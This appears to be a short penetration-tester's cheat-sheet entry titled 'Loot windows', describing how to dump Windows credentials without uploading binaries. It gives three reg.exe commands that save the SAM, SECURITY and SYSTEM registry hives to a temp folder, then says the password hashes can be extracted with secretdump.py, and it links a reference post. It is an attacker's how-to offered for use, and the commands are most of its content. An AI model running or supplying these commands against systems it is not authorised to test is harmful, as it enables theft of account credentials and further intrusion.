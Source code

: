 # Loot windows - For credentials and other stuff

This might be a better technique than using tools like wce and fgdump, since you don't have to upload any binaries.
Get the registry:

```
C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
C:\> reg.exe save hklm\security c:\windows\temp\security.save
C:\> reg.exe save hklm\system c:\windows\temp\system.save
```

The hashes can be extracted using secretdump.py. 

## References

This is a great post
https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/